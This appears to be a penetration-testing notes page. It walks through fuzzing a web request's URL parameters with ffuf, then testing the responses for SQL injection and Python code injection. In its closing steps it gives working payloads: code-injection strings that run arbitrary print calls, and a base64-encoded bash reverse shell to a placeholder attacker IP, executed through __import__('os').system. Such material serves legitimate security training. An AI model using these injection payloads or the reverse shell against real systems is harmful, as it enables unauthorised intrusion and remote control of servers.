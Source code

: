 Fuzzing URL Parameters can show easy ways to get code execution, sqli etc.

# Example
Take the following request:

![image](https://github.com/user-attachments/assets/414ef308-71c2-436b-bfaf-f3d8e690bc76)

## Step 1: Copy to file
![image](https://github.com/user-attachments/assets/dc63395b-ad89-431a-bb16-17cb4b8fcfdf)

In this case, the file is saved as "search.req".

## Step 2: Add fuzz to request
![image](https://github.com/user-attachments/assets/1ffc985b-21b2-4d2a-a7ed-acab02dabe21)

## Step 3: ffuf
```bash
ffuf -request search.req -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -ms 0
```
-request-proto only is required for http as https is the default.
## Step 4: Analyze output
![image](https://github.com/user-attachments/assets/9ff86037-bf98-4763-9f60-4a686f5a853e)

This shows that when the parameter has a \ or ' at the end of it, the page returns nothing - indicating either SQL injection or command injection.

### SQLi Checks
Try standard SQLi checks such as -- - # // 

### Command Injection Checks
If there is a ', then it may form part of a statement - for example: print('INPUT'). So if INPUT=')# and it is similar to the example, then the statement will be print('')#') which is valid and the page will return content instead of 0.

INPUT: 
```
abc'
```
![image](https://github.com/user-attachments/assets/250bcf49-a2c6-45db-b5bd-339990ce7b04)

INPUT:
```
abc')#
```
![image](https://github.com/user-attachments/assets/047e987e-6749-4fdf-9962-aa6c2b2c2a04)

To demonstrate how this leads to code execution, let's try the following: 
```
abc')%20%2b%20print('Code%20Execution%20possible!')%23%20
``` 
![image](https://github.com/user-attachments/assets/13445b76-739a-421a-ac3f-bc6ea4f74a46)

To get a reverse shell, do the following:
```bash
echo -n "bash -i >& /dev/tcp/$(ATTACKER_IP)/$(ATTACKER_PORT) 0>&1" | base64
```
Add the following payload to the vulnerable parameter:
```
__import__('os').system('echo -n $OUTPUT_OF_PREVIOUS_COMMAND | base64 -d | bash')
```
REMEMBER TO URL ENCODE THE PAYLOAD!!! Make sure characters such as + are encoded and not mistaken for spaces!
